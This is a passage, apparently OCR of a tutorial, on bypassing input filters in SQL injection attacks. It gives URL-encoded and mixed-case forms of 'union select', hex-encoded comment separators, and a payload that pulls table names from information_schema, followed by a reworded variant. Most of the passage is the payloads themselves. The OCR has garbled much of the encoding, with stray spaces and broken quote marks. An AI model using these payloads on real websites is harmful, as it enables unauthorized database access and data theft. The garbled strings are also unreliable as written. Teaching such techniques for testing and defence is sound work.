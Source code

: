 u =% 75
n =% 6e
i =% 69
o =% 6f
n =% 6e
space =% 20
s =% 73
e =% 65
l =% 6c
c =% 63
t =% 74
`` ''

Example:

`% 55nion% 53elect 1`

### Upper case and lower case

We can also use the method of mixing upper and lower case to see if we can evade some filters.

Example:

`SeLeCt Union 1`

### Hex Encoding

This is based on encoding the comments method we saw earlier in hex code:

`/% 2A% 2A / y% 2F **% 2F`

Example:

`` ''
/% 2A% 2A / union /% 2A% 2A / select /% 2A% 2A / 1

% 2F **% 2Funion% 2F **% 2Fselect% 2F **% 2F1
`` ''
 
## Create encoded payloads

In this part I would like to give an example of how to create an encoded payload.

First we are going to define the payload that we want to encode:

`` ''
union select 1,2,3, concat (table_name), 5 from information_schema.tables where table_schema = database ()

`` ''

In this case we are using the payload without any coding, but we have more ways to declare the payload, this by changing its syntax and adding other things even without coding, for example:

`` ''
union all (select 1,2,3, concat (table_name), 5) from information_schema.tables where table_schema = database ()
